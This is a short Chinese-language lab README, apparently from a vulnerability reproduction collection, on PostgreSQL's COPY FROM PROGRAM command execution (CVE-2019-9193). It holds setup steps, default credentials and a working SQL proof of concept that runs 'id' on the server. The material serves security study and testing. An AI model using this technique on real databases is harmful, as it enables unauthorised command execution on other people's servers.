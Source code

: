 # PostgreSQL 高权限命令执行漏洞（CVE-2019-9193）

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

参考链接：

- https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## 漏洞环境

启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，将开启Postgres默认的5432端口，默认账号密码为postgres/postgres。

## 漏洞复现

首先连接到postgres中，并执行参考链接中的POC：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行命令id并将结果保存在cmd_exec表中：

![](1.png)
